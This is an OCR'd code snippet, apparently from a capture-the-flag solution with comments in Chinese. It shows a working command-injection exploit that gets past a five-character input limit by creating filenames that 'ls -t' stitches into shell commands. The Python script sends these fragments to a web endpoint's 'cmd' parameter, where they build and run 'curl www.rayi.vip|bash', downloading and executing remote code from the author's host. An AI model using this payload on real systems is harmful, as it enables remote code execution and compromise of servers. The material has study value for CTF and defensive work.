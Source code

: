 
```
命令：&gt;ls\\			#生成一个文件名为ls\的文件
命令：ls&gt;_			#为了确保ls -t 中ls在前面，所以要先使用ls&gt;_将ls输入到文件_中
命令：&gt;\ \\			#生成ls -t之间的空格，一个文件名为 \的文件
命令：&gt;-t\\			#生成文件名为-t\的文件
命令：&gt;\&gt;g			#生成文件名为&gt;g的文件
命令：ls&gt;&gt;_			#将所有的文件名写到文件_里
命令：sh _			#由上至下按顺序执行由\拼接起来的ls -t命令，并将结果输入到文件g中

```

```
import requests
from time import sleep
import urllib

payload = [
    # generate `ls -t&gt;g` file
    '&gt;ls\\', 
    'ls&gt;_', 
    '&gt;\ \\', 
    '&gt;-t\\', 
    '&gt;\&gt;g', 
    'ls&gt;&gt;_', 
    
    # generate `curl www.rayi.vip|bash` 
    # 注意文件名不能以.开头
    # 注意文件名不能有重复
    # 注意vps只能用index，因为文件名不能以/开头
    # 悲剧的是我的vps的ip正好有俩0.，只能用域名了
    '&gt;sh\ ', 
    '&gt;ba\\', 
    '&gt;\|\\',
    '&gt;p\\',
    '&gt;vi\\',
    '&gt;i.\\', 
    '&gt;y\\',
    '&gt;ra\\', 
    '&gt;w.\\', 
    '&gt;ww\\', 
    '&gt;\ \\', 
    '&gt;rl\\', 
    '&gt;cu\\', 
    # exec
    'sh _', 
    #先执行ls -t&gt;g
    'sh g'
   
]

r = requests.get('http://url/?reset=1')
for i in payload:
    assert len(i) &lt;= 5 
    r = requests.get('http://url/?cmd=' + urllib.parse.quote(i) )
    print(i)
    sleep(1)

```
